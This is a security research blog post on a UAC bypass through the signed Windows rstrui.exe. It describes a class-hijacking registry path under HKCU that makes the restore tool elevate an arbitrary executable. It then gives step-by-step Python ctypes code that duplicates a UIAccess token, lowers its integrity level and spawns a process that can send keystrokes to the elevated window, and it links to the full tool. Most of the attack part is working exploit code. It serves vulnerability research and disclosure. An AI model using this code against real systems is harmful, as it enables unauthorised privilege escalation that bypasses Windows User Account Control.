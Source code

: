 ```yaml
---
layout: post
title: RESEARCHING RSTRUI PROCESS
vimeoId: 344967402
---
```


Rstrui is a signed Microsoft executable, which handles the system restore features. This executable has "autoElevate" property set to true in the manifest which
means it will run with high integrity level. While playing around in [ProcessMonitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from
Sysinternals, I found out that rstrui.exe accepts command line arguments, I focused on the "/RUNONCE" argument.

While monitoring the activity, I couldn't find any vulnerabilities at first. The UI starts up and fails, because I haven't configured the
system restore feature on the test machine. Pressed the left button "Run System Restore", see picture below. 

![_config.yml]({{ site.baseurl }}/images/rstrui_ui.JPG)

And checked back at ProcessMonitor, saw that it suffers from a class hijacking vulnerability, see picture below.

![_config.yml]({{ site.baseurl }}/images/rstrui_procmon.JPG)

If adding path to another executable in the {Default} value at "HKCU\Software\Classes\exefile\shell\runas\command\" we can trick rstrui to elevate another executable once
pressing "Run System Restore" button.

{% include vimeo.html id=page.vimeoId %}

One problem is that we cannot control this UI from a Medium IL process. In order to navigate the UI from a Medium IL process, we need to obtain a UIAccess token.

The first step is to either create or find a process with UIAccess flag, in this example we use "msra.exe" but could use "ctfmon.exe" which is running by default,
in that case we don't need to create a new process.
```python
shinfo = ShellExecInfo()
shinfo.cbSize = ctypes.sizeof(shinfo)
shinfo.fMask = 0x00000040
shinfo.lpFile = "msra.exe"
shinfo.nShow = 0
shinfo.lpParameters = None

with disable_fsr():
	if ctypes.windll.shell32.ShellExecuteExW(ctypes.byref(shinfo)):
		print "[+] Created host process PID: {pid} using ShellExecuteExW".format(pid=shinfo.hProcess)
	else:
		print "[-] Unable to create host process using ShellExecuteExW"
		return False
```

Open the token with TOKEN_DUPLICATE and TOKEN_QUERY access
```python
token = ctypes.c_void_p(ctypes.c_void_p(-1).value)
if ctypes.windll.ntdll.NtOpenProcessToken(shinfo.hProcess, (TOKEN_DUPLICATE | TOKEN_QUERY),
											ctypes.byref(token)) == ctypes.c_ulong(0xC0000001):
	print "[-] Unable to open process token using NtOpenProcessToken"
	return False
else:
	print "[+] Opened process token using NtOpenProcessToken: {token}".format(token=token)
```

Duplicate primary token with TOKEN_ALL_ACCESS access
```python
dtoken = ctypes.c_void_p(ctypes.c_void_p(-1).value)
if ctypes.windll.ntdll.NtDuplicateToken(token, TOKEN_ALL_ACCESS, None, False,
										TOKEN_TYPE.TokenPrimary, ctypes.byref(dtoken)) == ctypes.c_ulong(0xC0000001):
	print "[-] Unable to duplicate token using NtDuplicateToken"
	return False
else:
	print "[+] Duplicated token using NtDuplicateToken: {dtoken}".format(dtoken=dtoken)
```

Initialize Medium SID and lower the duplicated token from Medium+ to Medium integrity
```python
mlAuthority = SID_IDENTIFIER_AUTHORITY((0, 0, 0, 0, 0, 16))
pIntegritySid = ctypes.c_void_p()

if ctypes.windll.ntdll.RtlAllocateAndInitializeSid(ctypes.byref(mlAuthority), 1, IntegrityLevel.MEDIUM_RID,
													0, 0, 0, 0, 0, 0, 0, ctypes.byref(pIntegritySid)) == ctypes.c_ulong(0xC0000001):
	print "[-] Unable to Initialize Medium SID using RtlAllocateAndInitializeSid"
	return False
else:
	print "[+] Initialized Medium SID using RtlAllocateAndInitializeSid"

saa = SID_AND_ATTRIBUTES()
saa.Attributes = GroupAttributes.SE_GROUP_INTEGRITY
saa.Sid = pIntegritySid

tml = TOKEN_MANDATORY_LABEL()
tml.Label = saa

if ctypes.windll.ntdll.NtSetInformationToken(dtoken, TOKEN_INFORMATION_CLASS.TokenIntegrityLevel,
											ctypes.byref(tml), ctypes.sizeof(tml)) == ctypes.c_ulong(0xC0000001):													
	print "[-] Unable to lower duplicated token IL from Medium+ to Medium using NtSetInformationToken"
	return False
else:
	print "[+] Lowered duplicated token IL from Medium+ to Medium using NtSetInformationToken"
```

Using CreateProcessAsUserA we can create a new process using the duplicated token, which has the UIAccess flag.
This process can control a High IL process with SendKeys or keyboard events.
```python
lpStartupInfo = STARTUPINFO()
lpStartupInfo.cb = ctypes.sizeof(lpStartupInfo)
lpStartupInfo.dwFlags = 0x00000001
lpStartupInfo.wShowWindow = 5
lpProcessInformation = PROCESS_INFORMATION()
lpApplicationName = "notepad.exe" # Path to executable that controls High IL process

if not ctypes.windll.advapi32.CreateProcessAsUserA(dtoken, None, lpApplicationName, None, None, False,
													(0x04000000 | 0x00000010), None, None, ctypes.byref(lpStartupInfo),
													ctypes.byref(lpProcessInformation)):
	print "[-] Unable to create process using CreateProcessAsUserA"
	return False
else:
	print "[+] Created process PID: {pid} using CreateProcessAsUserA".format(pid=lpProcessInformation.dwProcessId)
```

Full code can be found here, with payload example to send keyboard events
* https://github.com/rootm0s/UIAP
